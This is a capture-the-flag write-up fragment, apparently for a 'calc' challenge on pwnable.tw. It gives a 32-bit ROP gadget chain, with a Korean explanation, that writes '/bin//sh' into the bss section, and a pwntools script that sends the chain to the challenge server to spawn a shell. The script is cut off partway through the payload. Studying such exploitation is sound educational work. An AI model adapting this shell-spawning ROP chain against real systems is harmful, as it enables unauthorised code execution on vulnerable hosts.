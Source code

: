 ```python
1
1
bss : 0x80eb100

# ecx 0, edx 0, ebx "/bin//sh"
0x0808c2ed : xor edx, edx ; pop ebx ; div esi ; pop esi ; pop edi ; pop ebp ; ret
bss : 0x80eb100
1
1
1

0x0805c34b : pop eax ; ret
0xb
0x08049a21 : int 0x80

=> mov [ebx], edx를 이용하여 ebx에는 bss 영역 넣고, edx에는 "/bin//sh" 문자열을 집어넣어서 차곡차곡 ebx가 문자열을 나타낼 수 있도록 만들었습니다. eip를 덮을 때, 전 인덱스에 영향을 주기 때문에, 뒤에서부터 거꾸로 chain을 덮었습니다.
```

# exploit
```python
#! /usr/bin/python
from pwn import *

#r = process('./calc')
r = remote('chall.pwnable.tw',10100)
#context.log_level='debug'
#gdb.attach(r,'b* 0x8049411')
#gdb.attach(r,'b* 0x08049433')

payload = []
payload.append('134520595') # 0x08049f13 : xor ecx, ecx ; pop ebx ; mov eax, ecx ; pop esi ; pop edi ; pop ebp ; ret
payload.append('135180544') # bss : 0x80eb100
payload.append('1') # 1
payload.append('1') # 1
payload.append('1') # 1

payload.append('134676906') # 0x080701aa : pop edx ; ret
payload.append('1852400175') # 0x6e69622f "/bin"

payload.append('134564067') # 0x080548e3 : mov dword ptr [ebx], edx ; add esp, 0x18 ; pop ebx ; ret
payload.append('1') # 1
payload.append('1') # 1
payload.append('1') # 1
payload.append('1') # 1
payload.append('1') # 1
payload.append('1') # 1
payload.append('135180548') # bss+4 : 0x80eb104

payload.append('134676906') # 0x080701aa : pop edx ; ret
payload.append('1752379183') # 0x68732f2f "//sh"

payload.append('134564067') # 0x080548e3 : mov dword ptr [ebx], edx ; add esp, 0x18 ; pop ebx ; ret
payload.append('1') # 1
payload.append('1') # 1
payload.append('1') # 1
payload.append('1') # 1
payload.append('1') # 1
payload.append('1') # 1
payload.append('135180544') # bss : 0x80eb100

```